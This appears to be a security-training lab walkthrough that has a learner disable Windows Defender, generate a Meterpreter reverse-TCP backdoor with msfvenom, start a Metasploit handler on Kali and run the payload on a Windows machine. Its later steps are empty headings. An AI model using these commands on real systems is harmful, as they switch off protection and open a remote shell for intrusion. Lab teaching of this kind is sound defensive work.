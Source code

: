 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default Powershell window, run the following command to disable Defedner. 
Remember, our goal here is not bypass endpoint protection.

`Set-MpPreference -DisableRealtimeMonitoring $true`

Check if Defender is really turned off with (should be False):

`Get-MpComputerStatus | select RealTimeProtectionEnabled`

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)
![](attachments/warmup_01.png)

Click Yes at the User the User Account Control Prompt.

Open a Kali linux command prompt: 
![](attachments/warmup_02.png)

On the Kali console, check the IP address with:

`ifconfig`
![](attachments/warmup_03.png)

Mark the IP address of the Kali linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

`sudo su -`

`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`
`ls -l /tmp/beliveme.exe`

`cp /tmp/beliveme.exe /mnt/c/temp`

`ls -l /mnt/c/temp/`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux
![](attachments/warmup_04.png)

Become a root:

`sudo su -`

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`
![](attachments/warmup_05.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

`cd \temp`

`beliveme.exe`

### step 3



### step 3

### step 4
